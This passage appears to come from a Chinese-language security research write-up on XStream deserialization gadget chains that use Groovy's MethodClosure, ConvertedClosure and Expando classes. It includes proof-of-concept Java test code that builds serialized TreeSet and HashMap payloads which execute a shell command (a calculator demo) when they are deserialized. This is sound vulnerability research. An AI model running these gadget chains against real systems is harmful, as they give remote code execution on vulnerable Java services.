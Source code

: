 实际上，这样也可以触发（但是不带参数，暂时没找到可以无参数的后续利用链）

```java
MethodClosure mc = new MethodClosure("open -a calculator.app", "execute");
mc.call()
```

Groovy1链用的就是这种，恰好是无参数的触发。

###### [](#ConvertedClosure "ConvertedClosure")ConvertedClosure

```java
@Test
public void GroovyExpando() throws Exception {
    Runtime runtime = Runtime.getRuntime();
    MethodClosure mc = new MethodClosure(runtime, "exec");
    ConvertedClosure handler = new ConvertedClosure((Closure) mc, "compareTo");
    Object map = Proxy.newProxyInstance(
            GroovyConvertedClosure.class.getClassLoader(),
            new Class<?>[]{Comparable.class}, handler);
    TreeSet ts = PayloadHelper.makeTreeSet("open -a calculator.app", map);
    XStream xStream = new XStream();
    String xml = xStream.toXML(ts);
    System.out.println(xml);
    
    xStream.fromXML(xml);
}
```

##### [](#3-Groovy-Expando "3. Groovy Expando")3\. Groovy Expando

> 前面用到了TreeSet的方式，这里我们去使用Map的类型来触发。以Map的类型来触发，那就是找可以利用的hashCode函数

> groovy.util.Expando#hashCode

师傅的思路是从寻找hashCode，往上回溯

1.  groovy.util.Expando#hashCode 执行了closure.call()，其中closure来源为属性expandoProperties
2.  TreemapConverter 每次插入obj的时候，都会执行obj.hashCode

思路很简单，poc如下

```java
@Test
public void GroovyExpando1() throws Exception {
    MethodClosure mc = new MethodClosure("open -a calculator.app", "execute");
    Expando exp = new Expando();
    exp.setProperty("hashCode",mc);

    HashMap tp = PayloadHelper.makeMap("foo",exp);

    XStream xStream = new XStream();
    String xml = xStream.toXML(tp);
    System.out.println(xml);
    xStream.fromXML(xml);
}
```
